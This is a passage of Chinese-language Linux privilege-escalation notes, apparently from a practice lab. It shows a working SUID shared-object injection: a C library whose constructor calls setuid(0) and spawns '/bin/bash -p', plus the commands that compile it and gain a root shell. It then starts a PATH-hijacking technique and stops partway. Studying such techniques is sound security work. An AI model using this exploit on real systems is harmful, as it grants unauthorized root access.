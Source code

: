 > 关于strace命令的文档学习：https://jvns.ca/strace-zine-v3.pdf

注意，我们通过观察发现：可执行文件suid-so试图在我们的主目录里加载\*\*/home/user/.config/libcalc.so\*\*共享对象，但是找不到。

现在我们开始伪造一个/home/user/.config/libcalc.so共享对象文件。

我们先创建.config 目录：

```shell
mkdir /home/user/.config
```

再创建一个libcalc.c（这个文件能产生一个 Bash shell），libcalc.c文件的内容如下：

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	setuid(0);
	system("/bin/bash -p");
}
```

c文件在linux中要编译才能使用，我们将libcalc.c编译成一个共享对象并放置在/home/user/.config路径下：

```shell
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

再次执行suid-so可执行文件，这次suid-so会成功加载一个伪造的/home/user/.config/libcalc.so共享对象，最终效果是得到一个 root shell。

```shell
/usr/local/bin/suid-so
```

![image-20221011005041293](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221011005041293.png)

## SUID/SGID 可执行文件提权-环境变量

PATH环境变量介绍：

```txt
使用cat $PATH或者echo $PATH ，可以查看当前用户的PATH环境变量，使用env可以查看系统的所有环境变量（env|more 分页查看）

PATH 环境变量的内容是由一堆目录组成的，各目录之间用冒号“:”隔开。
当执行某个命令时，Linux 会依照 PATH 中包含的目录依次搜寻该命令的可执行文件，一旦找到，即正常执行；反之，则提示无法找到该命令。
注意：如果在 PATH 包含的目录中，有多个目录都包含某命令的可执行文件，那么会执行先搜索到的可执行文件。（这一特性可以利用）
```

![image-20221011013636164](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221011013636164.png)

我们可以利用目标机上的SUID 可执行文件/usr/local/bin/suid-env，因为它继承了用户的 PATH 环境变量（/usr/local/bin/包含在PATH变量值中），并且尝试在不指定绝对路径的情况下执行程序。

首先，执行/usr/local/bin/suid-env文件并注意它似乎试图启动 apache2 webserver:
